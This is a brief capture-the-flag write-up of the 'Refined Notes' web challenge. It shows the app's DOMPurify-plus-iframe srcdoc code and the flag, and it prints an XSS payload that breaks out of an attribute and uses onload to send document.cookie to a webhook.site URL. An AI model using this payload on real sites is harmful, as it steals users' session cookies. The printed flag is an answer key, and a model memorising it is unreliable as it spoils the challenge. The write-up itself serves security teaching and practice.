


All my friends warned me about xss, so I created this note taking app that only accepts "refined" Notes.


Refined Notes is a challenge where we create a note and and id is created with the text we submitted.
Once we click on the button to create a note the following javascript is executed:

```js
submit.addEventListener('click', (e) => {
    const purified = DOMPurify.sanitize(note.value);
    fetch("/", {
        method: "POST",
        body: purified
    }).then(response => response.text()).then((id) => {
        window.history.pushState({page: ''}, id, `/${id}`);
        submit.classList.add('hidden');
        note.classList.add('hidden');
        noteframe.classList.remove('hidden');
        noteframe.srcdoc = purified;
    });
});
```

It uses DOMPurify to sanitize the input.
Then it renders the payload to an attribute called srcdoc inside an iframe tag:



Basically we inject inline JS in the srcdoc attribute:

" onload="fetch('https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae/'+document.cookie)

Then use the note id and send it to the bot that will visit it:



Flag: `GPNCTF{3nc0d1ng_1s_th3_r00t_0f_4ll_3v1l}`

